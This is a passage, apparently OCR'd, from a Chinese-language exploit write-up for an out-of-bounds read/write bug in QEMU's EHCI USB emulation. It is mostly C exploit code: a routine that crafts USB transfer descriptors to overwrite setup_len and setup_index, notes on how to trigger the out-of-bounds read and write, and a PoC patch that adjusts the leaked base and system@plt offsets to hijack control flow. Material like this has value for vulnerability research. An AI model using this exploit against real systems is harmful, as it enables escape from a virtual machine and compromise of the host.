 ```c

    set_EHCIState();
}

void do_copy_write(int offset, unsigned int setup_len, unsigned int setup_index){

    reset_enable_port();
    set_qh();

    *(unsigned long *)(data_buf_oob + offset) = 0x0000000200000002; // 覆盖成原先的内容
    *(unsigned int *)(data_buf_oob + 0x8 +offset) = setup_len; //setup_len
    *(unsigned int *)(data_buf_oob + 0xc+ offset) = setup_index;

    qtd->token = QTD_TOKEN_ACTIVE | USB_TOKEN_OUT << QTD_TOKEN_PID_SH | 0x1e00 << QTD_TOKEN_TBYTES_SH; // flag
    qtd->bufptr[0] = virt2phys(data_buf);
    qtd->bufptr[1] = virt2phys(data_buf_oob);

    set_EHCIState();
}
```

- 设置`qtd→token==1<<8`且`setup_buf[0]==USB_DIR_IN`则进入越界读函数，其中`p→iov.size`由`qtd→token=size<<QTD_TOKEN_TBYTES_SH`确定，将`s→data_buf`读取到`qtd→bufptr[0]`中。
- 设置`qtd→token==1<<8`且`setup_buf[0]==USB_DIR_OUT`则进入越界写函数，将`qtd→bufptr[0]`复制到`s→data_buf`中。

6. poc patch

```c
-    struct USBDevice* usb_device_tmp = data_buf + 0x4;
+    struct USBDevice* usb_device_tmp = data_buf_oob + 0x4;

-    long long base = leak_addr - 0xc40d90;
-    uint64_t system_plt = base + 0x290D30;
+    long long base = leak_addr - 0xe53e70;
+    uint64_t system_plt = base + 0x28f030;
```
